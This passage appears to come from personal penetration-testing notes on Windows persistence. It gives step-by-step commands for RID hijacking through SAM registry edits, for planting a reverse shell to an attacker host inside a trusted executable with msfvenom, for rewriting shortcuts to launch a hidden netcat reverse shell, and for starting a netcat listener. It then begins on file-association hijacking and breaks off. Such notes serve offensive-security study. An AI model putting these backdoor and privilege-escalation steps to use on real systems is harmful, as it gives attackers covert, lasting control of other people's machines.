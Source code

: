 Now add the user you need so he'll have full privileges to connect with WinRM, and follow the steps of using the sam and system files from the previous method.

##### RID Hijacking

Relative ID (RID) is a numeric representation of a user across the system, the LSASS assigns an access token based on it, changing the registry value to the same one of the administrator can assign a simple user administrative privileges.

Default administrator's **RID** = 500
Default regular user's **RID** >= 1000

`wmic useraccount get name,sid` - Find a user's assigned SID (identifies a user across a domain), the RID is the last bit of the SID
`PsExec64.exe -i -s regedit` - Run regedit with SYSTEM privileges using psexec from pstools (Administrator can't access the SAM).

Now in the registry go to `HKLM\SAM\SAM\Domains\Account\Users\`, search for a key with the RID of the user you want to use in hex, the F value holds the RID at position 0x30.

![[d630140974989748ebcf150ba0696d14.png]]

Now replace the bytes to those of the administrator's RID in hex (500 = 0x01F4).

![[8f2072b6d13b7343cf7b890586703ddf.png]]

## Backdooring Files

##### Executable Files

`msfvenom -a x64 --platform windows -x <frequently used .exe file> -k -p windows/x64/shell_reverse_tcp lhost=<ATTACKER_IP> lport=<port> -b "\x00" -f exe -o <output file>` - Plant a script that the user will execute every time he opens the .exe file.

##### Shortcut Files

Check the path the shortcut file is pointing to by looking at the properties.

`Start-Process -NoNewWindow <nc64.exe file location> "-e cmd.exe ,ATTACKER_IP> <port>"`
`<Path the shortcut file is pointing to>` - Create a Powershell script in a location like System32 that will execute a reverse shell and than the legitimate file.
`powershell.exe -WindowStyle hidden <Malicious file location>` - Change the path the shortcut file is pointing to with the malicious Powershell script, after that change the icon back to the previous location if needed.
`nc -lvp <port>` - Start a Netcat listener at any time and wait for the user to execute the file.

##### Hijacking File Associations

A key is stored for any file type under `HKLM\Software\Classes\`.

Check which program is used to open a file (which ProgID is associated with the file extension):

![[3ae1b8356b38a349090e836026d6d480.png]]

Now search for a subkey under `HKLM\Software\Classes\` and go to `shell\open\command` (most of the times it's there), where the default command to run files with that extension is specified:
